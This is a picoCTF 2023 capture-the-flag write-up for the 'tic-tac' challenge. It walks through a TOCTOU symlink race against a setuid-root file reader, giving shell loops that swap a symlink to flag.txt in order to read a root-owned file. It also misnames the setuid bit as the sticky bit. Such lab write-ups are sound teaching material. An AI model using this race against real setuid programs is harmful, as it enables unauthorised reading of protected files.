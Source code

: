 # Binary Exploitation / tic-tac

This is a write-up of my solution to these challenges from the [2023 picoCTF](/posts/2023_picoctf):

- Binary Exploitation / [tic-tac](https://play.picoctf.org/practice/challenge/380) (200 Points)

# tic-tac (200)
> Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

On launching the challenge instance, we get `ssh`-connection details.
In the home-folder of our user `ctf-player`, we find the `txtreader` executable,
which is owned by `root` and has the [sticky bit](https://en.wikipedia.org/wiki/Sticky_bit) set:
```
$ ls -la
[...]
-rw------- 1 root       root          32 Mar 16 02:28 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16 01:30 src.cpp
-rwsr-xr-x 1 root       root       19016 Mar 16 02:28 txtreader
```

We can therefore execute it as `root` and it will print our own file `src.cpp` like `cat` would.
This does not work with `flag.txt` however,
since the binary seems to check the owner rights of files before it prints them:
```
$ ./txtreader src.cpp 
#include <iostream>
#include <fstream>
[...]

$ ./txtreader flag.txt 
Error: you don't own this file
```

The file `src.cpp` actually contains the source code of `txtreader`,
allowing us to look closer at how this check is performed:

```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

A big hint to the solution is one of the challenges tags: `toctou`
This stands for [time of check / time of use](https://de.wikipedia.org/wiki/Time-of-Check-to-Time-of-Use-Problem),
a common problem, where the execution of some code depends on a check.
When there is a gap in time between the check and the dependent code,
another process could change the check condition in exactly this moment.

In the code above, the ownership of the file is checked before it is opened for reading.
If we manage to swap the file between these two operations,
the check might be performed on a different file that the one being read.
For this I create a dummy file that I own and a symbolic link to this file called `flag`:

```bash
echo "dummy file content" > dummy.txt
ln -s dummy.txt flag
```

I can now call the `txtreader` with this link and it will print my file:

```bash
$ ./txtreader flag
dummy file content
```

With a `while`-loop, I can change this link back and forth between `dummy.txt` and `flag.txt` as fast as possible.
I put this process in the background with `&`, so it keeps running:
```
$ while true; do ln -fs flag.txt flag; ln -fs dummy.txt flag; done &
[1] 61
```

Now all that's left to do is to try reading `flag` as often as possible
and filtering away all outputs that are not the flag:
```
$ while true; do ./txtreader flag; done 2>&1 | grep "picoCTF"
picoCTF{ToctoU_!s_3a5y_XXXXXXXX}
```
